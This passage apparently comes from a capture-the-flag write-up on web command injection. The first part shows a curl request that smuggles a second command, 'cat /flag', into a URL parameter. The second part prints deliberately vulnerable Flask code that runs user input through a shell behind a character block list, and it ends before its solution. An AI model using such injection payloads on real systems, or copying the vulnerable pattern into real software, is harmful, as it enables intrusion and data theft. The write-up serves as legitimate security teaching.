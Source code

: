 2. touch a file in hacker home directory which owned by hacker

```
hacker@web-security~cmdi-5:/challenge$ ls -alt ~/f
-rw-r--r-- 1 hacker hacker 60 Jul 21 17:48 /home/hacker/f
```

3. craft the url that set `target-file=1; cat /flag > /home/hacker/f`

we want the server write the `/flag` content into `~/f`

```
curl challenge.localhost/adventure?target-file=1%3B+cat+%2Fflag+%3E+%2Fhome%2Fhacker%2Ff
```

---

# 6

## Description

Sometimes, developers try very hard to filter out potentially dangerous characters. The success in this challenge is almost perfect, but not quite... You'll be stumped for a while, but will laugh at its familiarity when you figure out the solution!

## Solution

1. check the server code

```python
@app.route("/trial", methods=["GET"])
def challenge():
    arg = (
        flask.request.args.get("subdirectory", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/trial"><input type=text name=subdirectory><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```